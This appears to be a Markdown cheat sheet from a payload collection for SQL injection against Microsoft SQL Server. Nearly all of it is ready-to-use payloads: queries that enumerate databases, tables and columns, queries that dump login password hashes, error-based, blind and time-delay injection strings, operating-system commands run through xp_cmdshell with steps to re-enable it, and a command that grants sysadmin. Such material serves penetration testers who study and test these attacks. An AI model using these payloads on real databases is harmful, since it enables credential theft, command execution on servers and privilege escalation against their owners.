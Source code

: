 # MSSQL Injection

## MSSQL version
```
SELECT @@version
```

## MSSQL database name
```
SELECT DB_NAME()
```

## MSSQL List Databases
```
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL List Column
```
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL List Tables
```
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
```


## MSSQL User Password
```
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL Error based
```
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```


## MSSQL Blind based
```
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## MSSQL Time based
```
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--
```

## MSSQL Command execution
```
EXEC xp_cmdshell "net user";           
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1'
```
If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

## MSSQL Make user DBA (DB admin)
```
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## Thanks to
 * [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
 * [Sqlinjectionwiki - MSSQL](http://www.sqlinjectionwiki.com/categories/1/mssql-sql-injection-cheat-sheet/)
 * [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
